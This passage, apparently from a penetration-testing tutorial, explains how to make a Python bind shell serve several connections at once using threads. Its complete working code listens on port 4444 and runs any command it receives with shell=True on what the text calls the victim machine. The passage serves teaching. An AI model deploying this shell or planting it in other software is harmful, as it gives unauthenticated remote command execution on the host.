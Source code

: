 ```shell-session
```

The downside of the current implementation is that once we disconnect, the bind shell process stops. One way to fix this is to introduce `threads` and have the command execution part of the code run in a thread. This would allow us to create a new thread every time a machine connects to the shell, and then we would only have to stop the extra thread when the shell exits. Threads, in general, is a vast and complex topic, and Python has its quirks too. To keep a very long and complicated story short and straightforward, threads let us run different code pieces `concurrently`, similarly to how humans multitask. Note that concurrently is not the same as parallel. In our example, this means that while one thread is busy doing work for our connected client, another thread (the primary one) is ready to accept a new incoming connection. Once another connection is made, these two connected clients can execute code on the victim machine using the same bind shell.

By simply extracting the code that handles command execution to its function, it is possible to make the bind shell first listen for a new connection, spawn a thread for that connection that handles command execution, and finally start over listening to new incoming connections.

#### Supporting multiple connections

```python
import socket
import subprocess
import click
from threading import Thread

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

def handle_input(client_socket):
    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)

    while True:
        client_socket, _ = s.accept()
        t = Thread(target=handle_input, args=(client_socket, ))
        t.start()

if __name__ == '__main__':
    main()
```
